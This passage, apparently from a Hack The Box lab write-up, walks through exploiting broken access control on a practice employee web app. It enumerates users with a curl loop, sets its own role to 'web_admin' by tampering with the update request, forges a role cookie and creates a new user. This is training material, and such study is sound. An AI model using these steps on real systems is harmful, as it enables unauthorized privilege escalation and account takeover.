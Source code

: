```bash
do
    curl -s -X GET "$url""$i" | jq
done
```
If we name the file as `script.sh`, we can run it via this command and get the role for ``admin``:
```bash
$ /script.sh  | grep admin
```

Once we enumerate all users, we will find an ``admin`` user with the following details:
```json
{
    "uid": "X",
    "uuid": "a36fa9e66e85f2dd6f5e13cad45248ae",
    "role": "web_admin",
    "full_name": "administrator",
    "email": "webadmin@employees.htb",
    "about": "HTB{FLAG}"
}
```
We may modify the admin's details and then perform one of the above attacks to take over their account. 

However, as we now know the admin role name (``web_admin``), we can set it to our user so we can **create new users** or **delete current users**. 

To do so, we will intercept the request when we click on the ``Update profile`` button and change our role to ``web_admin``:
![[SJhxqIpw1g.png]]
This time, we do not get the "**Invalid role**" error message, nor do we get any access control error messages, meaning that there are no back-end access control measures to what roles we can set for our user. 

If we ``GET`` our user details, we see that our role has indeed been set to ``web_admin``:
```json
{
    "uid": "1",
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "web_admin",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb",
    "about": "A Release is like a boat. 80% of the holes plugged is not good enough."
}
```
Now, we can refresh the page to update our cookie, or manually set it as ``Cookie: role=web_admin``, and then intercept the ``Update`` request to **create a new user** and see if we'd be allowed to do so:
![[SJyv5L6PJg.png]]
We did not get an error message this time. If we send a ``GET`` request for the new user, we see that it has been successfully created:
![[ryv5q8av1e.png]]
